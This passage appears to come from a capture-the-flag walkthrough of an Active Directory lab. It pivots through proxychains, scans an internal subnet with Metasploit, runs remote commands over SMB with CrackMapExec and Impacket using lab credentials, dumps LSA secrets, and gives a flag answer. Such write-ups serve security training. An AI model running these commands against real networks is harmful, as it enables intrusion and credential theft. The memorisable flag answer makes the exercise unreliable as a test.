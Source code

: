 #### **Step 2: Configure Proxychains**
```bash
# Edit /etc/proxychains4.conf:
sudo nano /etc/proxychains4.conf

# Add to bottom:
[ProxyList]
socks4  127.0.0.1 1080
# or socks5 127.0.0.1 1080
```

#### **Step 3: Network Discovery**
```bash
# In msfconsole - scan internal network:
use auxiliary/scanner/portscan/tcp
set rhosts 172.16.6.0/24
set PORTS 139,445
set threads 50
run

# Results: 172.16.6.3, 172.16.6.50, 172.16.6.100 discovered
```

#### **Step 4: Access MS01 and Retrieve Flag**
```bash
# ⚠️ CrackMapExec may have issues with proxychains - use Impacket alternatives:

# Method 1: Try CrackMapExec (may fail with credential parsing issues)
proxychains crackmapexec smb 172.16.6.50 -u svc_sql -p lucky7 -x "type C:\users\administrator\desktop\flag.txt"

# Method 2: Use Impacket (RECOMMENDED - works better with proxychains)
proxychains impacket-smbexec INLANEFREIGHT/svc_sql:lucky7@172.16.6.50
# From shell:
type C:\users\administrator\desktop\flag.txt
```

**🎯 Answer**: `spn$_r0ast1ng_on_@n_0p3n_f1re`

---

## 👤 **Question 5: Credential Discovery**

### **🎯 Task**: "Find cleartext credentials for another domain user. Submit the username as your answer."

### **📋 Solution Steps:**

#### **Step 1: Dump LSA Secrets**
```bash
# ⚠️ CrackMapExec --lsa may fail with proxychains
# Try CrackMapExec first:
proxychains crackmapexec smb 172.16.6.50 -u svc_sql -p lucky7 --lsa

# Alternative: Use Impacket secretsdump (MORE RELIABLE):
proxychains impacket-secretsdump INLANEFREIGHT/svc_sql:lucky7@172.16.6.50

# Look for cleartext credentials in output
```
